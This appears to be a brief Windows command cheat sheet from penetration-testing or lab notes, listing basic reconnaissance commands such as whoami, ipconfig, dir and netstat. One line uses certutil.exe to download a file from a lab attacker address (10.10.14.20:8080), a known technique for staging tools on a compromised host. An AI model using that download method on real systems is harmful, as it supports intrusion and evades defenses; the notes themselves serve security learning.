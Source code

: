STARTS WITH >

`whoami`
`hostname`
`ipconfig`
`dir`
	display all info: `ipconfig /all

clear:
`cls

equivalent of cat:
`type [file]

equivalent of locate:
`dir [filename] /s`

dump configuration information or files
`certutil`
or
`certutil.exe`

uploading a file using certutil.exe from an http server
`certutil.exe -urlcache -split -f http://10.10.14.20:8080/[file]

display protocol statistics and TCP/IP network connections
`netstat`

open windows update
`control /name Microsoft.WindowsUpdate



